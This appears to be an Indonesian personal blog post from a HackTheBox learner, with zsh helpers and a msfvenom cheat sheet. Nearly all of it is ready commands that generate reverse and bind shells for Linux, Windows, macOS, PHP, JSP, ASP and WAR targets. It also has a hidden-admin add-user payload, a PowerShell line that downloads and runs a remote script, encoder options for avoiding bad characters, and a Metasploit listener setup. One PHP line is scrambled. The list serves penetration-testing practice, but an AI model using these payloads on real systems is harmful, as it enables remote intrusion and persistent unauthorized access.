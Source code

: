 ```yaml
---
layout: post
title: "Note: msfvenom cheatsheet"
date: 2022-10-13
---
```


sudah saya bilang saya orangnya mageran, dan ingin mengumpulkan sebanyak mungkin resource yang sering lupa, walaupun sudah menggunakan `kitty` sebagai terminal dan `zsh` sebagai shell utama.
tetap saja saya sering saja lupa.

sebelum itu saya sudah mencoba membuat `export` variable ke `.zshrc` agar tidak menggunakan perintah `ip add`, terus terusan. Dan saya menginstall `xclip` untuk mengirim argument ke clipboard.
dan mencoba menjadikannya sebagai alias `cboard` untuk memendekkanya.
```sh
HTB_HOST=$(ip add show tun0 2>&1 | tail +3 | head -1 | cut -f6 -d " " | awk '{print substr( $0, 1, length($0)-3)}') # htb ip address
CUSTOM_HOST=$(ip add show vboxnet0 2>&1 | tail +3 | head -1 | cut -f6 -d " " | awk '{print substr( $0, 1, length($0)-3)}') # biar ga repot aja sih while playing custom virtual machines.
```
ini dia tampaknya.
```sh
alias cboard="xclip -sel clipboard"
```
## msfvenom cheatsheet
```
msfvenom -l payloads 
msfvenom -p PAYLOAD --list-options 
msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP 
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf #Linux Meterpreter reverse shell x86 multi stage
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf #Linux Meterpreter bind shell x86 multi stage
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf # Linux bind shell x64 single stage
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf  #Linux reverse shell x64 single stage 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows Meterpreter reverse shell 
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe  #Windows Meterpreter #http reverse shell 
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe  #Windows Meterpreter bind shell 
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows CMD Multi Stage 
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe  #Windows CMD Single Stage 
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe  #Windows add user 
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho  #Mac Reverse Shell 
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho  #Mac Bind shell 
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py  #Python Shell 
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh  #BASH Shell 
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl  #PERL Shell 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp  #ASP Meterpreter shell 
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > #shell.jsp  JSP Shell 
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > #shell.war  WAR Shell 
 msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > #shell.php cat shell.php  pbcopy && echo '?php '  tr -d '\n' shell.php && pbpaste shell.php  Php Meterpreter Shell 
 msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php  #Php Reverse Shell 
 msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \\"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python  #Windows Exec Nishang Powershell in python 
 msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0"  #Bad characters shikata_ga_nai 
 msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0"  #Bad characters fnstenv_mov 
```
## multi handler
```
msf> use exploit/multi/handler  
msf> set payload windows/meterpreter/reverse_tcp  
msf> set lhost <IP>  
msf> set lport <PORT>  
msf> set ExitOnSession false  
msf> exploit -j  
```
## references
* <https://github.com/frizb/MSF-Venom-Cheatsheet>
* <https://pentestwiki.org/msfvenom-payloads-cheat-sheet/>
